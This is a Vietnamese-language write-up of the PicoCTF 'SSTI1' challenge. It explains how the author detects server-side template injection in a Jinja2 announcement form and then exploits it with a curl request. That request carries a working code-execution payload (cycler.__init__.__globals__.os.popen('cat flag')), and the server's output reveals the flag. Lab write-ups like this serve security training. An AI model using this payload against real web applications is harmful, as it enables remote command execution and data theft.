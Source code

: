 # 🧠 Writeup: SSTI1 - PicoCTF 

> 🔖 Chủ đề: Server Side Template Injection (SSTI)  

---

## 📌 **Description**

> **_“I made a cool website where you can announce whatever you want! Try it out!_”**  
> Additional details will be available after launching your challenge instance.

> Khi truy cập vào challenge, ta thấy một giao diện trang web đơn giản cho phép người dùng nhập nội dung vào một ô và gửi thông điệp lên website.
![](../img/SSTI1.png)
---

## 💡 **Hint**

> **Server Side Template Injection**

Gợi ý này cho thấy khả năng tồn tại lỗ hổng **SSTI** trong quá trình render nội dung người dùng nhập vào.

---

## 🔍 **Solution**

Khi xem mã nguồn HTML của trang, ta phát hiện một form đơn giản cho phép nhập nội dung, điều này đặt nghi vấn rằng dữ liệu đầu vào của người dùng có thể được render trực tiếp trong một template engine phía server, rất có thể là Jinja2 nếu backend viết bằng Python:

```html
<form action="/" method="POST">
    What do you want to announce: 
    <input type="text" value="Hello">
    <input type="submit" value="Ok">
</form>
```
Ta thử nhập "Hello" và thấy sever chuyển hướng ta cùng với việc hiển thị nội dung lên màn hình : 
![](../img/SSTI1-output.png)
Server phản hồi với HTML có chứa dòng:
```html
<h1 style="font-size:100px;" align="center">Hello</h1>
```
Tiếp tục thử với payload phổ biến với SSTI là ``{{7*7}}``, ta nhận được kết quả là : 
![](../img/SSTI1-output-payload.png)
---

Sau khi xác định được hệ thống tồn tại lỗ hổng Server-Side Template Injection (SSTI), ta tiếp tục thử nghiệm khai thác trên một instance mới tại địa chỉ:

``http://rescued-float.picoctf.net:63974/``

Đầu tiên, ta tiến hành kiểm tra xem lỗ hổng còn hoạt động hay không bằng cách gửi một yêu cầu đơn giản sử dụng lệnh:
```bash
#curl -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/ -L
```
Kết quả phản hồi:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content=Hello" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">Hello</h1>
```
Điều này xác nhận rằng dữ liệu đầu vào từ người dùng vẫn được render trực tiếp trong template — một dấu hiệu rõ ràng của SSTI đang tồn tại.
Tiếp theo, ta thử khai thác RCE (Remote Code Execution) bằng cách sử dụng payload đã được chứng minh hiệu quả trong môi trường sử dụng Jinja2, cụ thể:

```bash
curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/
```

Kết quả trả về từ server như sau:
```html
┌──(root㉿kali)-[~]
└─# curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:63974/

                <!doctype html>
                <h1 style="font-size:100px;" align="center">picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}</h1> 
```

Flag thu được là: ``picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}``

